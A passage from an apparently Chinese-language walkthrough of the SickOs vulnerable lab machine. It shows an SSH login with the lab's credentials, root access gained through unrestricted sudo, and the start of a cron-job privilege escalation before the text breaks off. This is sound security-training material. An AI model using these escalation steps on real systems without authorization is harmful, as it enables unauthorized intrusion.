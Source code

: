 通过 `uname -a`  可以看到计算机的名字是 

```
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 athlon i386 GNU/Linux
```



使用 `sickos 用户  密码 john@123` ssh 登录

```
ssh sickos@192.168.125.141
```



## 3.1 sudo 提权

```bash
sickos@SickOs:~$ id
uid=1000(sickos) gid=1000(sickos) groups=1000(sickos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
sickos@SickOs:~$ sudo -l
[sudo] password for sickos:
Matching Defaults entries for sickos on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:~$ sudo /bin/bash
root@SickOs:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SickOs:~#
```



## 3.2 计划任务提权：



```shell
cat /etc/crontab


17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

但是里面并没有



查看 `/etc/cron.d` 目录 发现 automate 文件 看起来像一个计划任务 每分钟执行一次命令
